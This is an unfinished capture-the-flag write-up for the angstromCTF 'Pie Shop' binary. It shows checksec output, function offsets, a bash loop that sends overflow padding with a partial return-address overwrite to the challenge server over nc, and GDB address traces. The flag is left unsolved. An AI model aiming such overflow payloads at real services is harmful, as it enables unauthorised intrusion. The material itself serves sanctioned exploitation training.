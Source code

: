 # Pie Shop
Binary

## Challenge 

I sure love pies (source)!

/problems/2019/pie_shop/

nc shell.actf.co 19306

Author: kmh11

## Hint

1. What does it mean if PIE is enabled on a binary?
2. 20 bits is not that much.

## Solution

PIE enabled

	# pwn checksec ./pie_shop
	[*] '/FILES/pie_shop'
	    Arch:     amd64-64-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      PIE enabled

Solution is to bruteforce PIE?

	flag: 0x011a9
	get_pie: 0x011bc
	main: 0x01262

A partial overwrite does not work (partial overwrite 0x91a9)

	# for i in {50..100}; do echo $i; python -c "import sys; sys.stdout.write('A'*$i + '\xa9\x11')" | nc shell.actf.co 19306; done

https://www.ret2rop.com/2018/08/can-we-bruteforce-aslr.html

GDB addresses

	(gdb) set disable-randomization off
	(gdb) run
	(gdb) info add flag
	Symbol "flag" is at 0x55da5b51c1a9 in a file compiled without debugging.
	(gdb) run
	(gdb) info add flag
	Symbol "flag" is at 0x5564b43ac1a9 in a file compiled without debugging.
	(gdb) run
	(gdb) info add flag
	Symbol "flag" is at 0x56526e2991a9 in a file compiled without debugging.
	(gdb) info frame
	Stack level 0, frame at 0x7fff7d850fb0:
	 rip = 0x7f9a0a4d5761 in read; saved rip = 0x7f9a0a4678e0
	 called by frame at 0x7fff7d850ff0
	 Arglist at 0x7fff7d850fa0, args: 
	 Locals at 0x7fff7d850fa0, Previous frame's sp is 0x7fff7d850fb0
	 Saved registers:
	  rip at 0x7fff7d850fa8
	(gdb) info stack 
	#0  0x00007f9a0a4d5761 in read () from /lib/x86_64-linux-gnu/libc.so.6
	#1  0x00007f9a0a4678e0 in _IO_file_underflow () from /lib/x86_64-linux-gnu/libc.so.6
	#2  0x00007f9a0a468a02 in _IO_default_uflow () from /lib/x86_64-linux-gnu/libc.so.6
	#3  0x00007f9a0a45c3fd in gets () from /lib/x86_64-linux-gnu/libc.so.6
	#4  0x000056526e2991e6 in get_pie ()
	#5  0x000056526e2992e0 in main ()
	(gdb) info add main
	Symbol "main" is at 0x56526e299262 in a file compiled without debugging.


## Flag

	??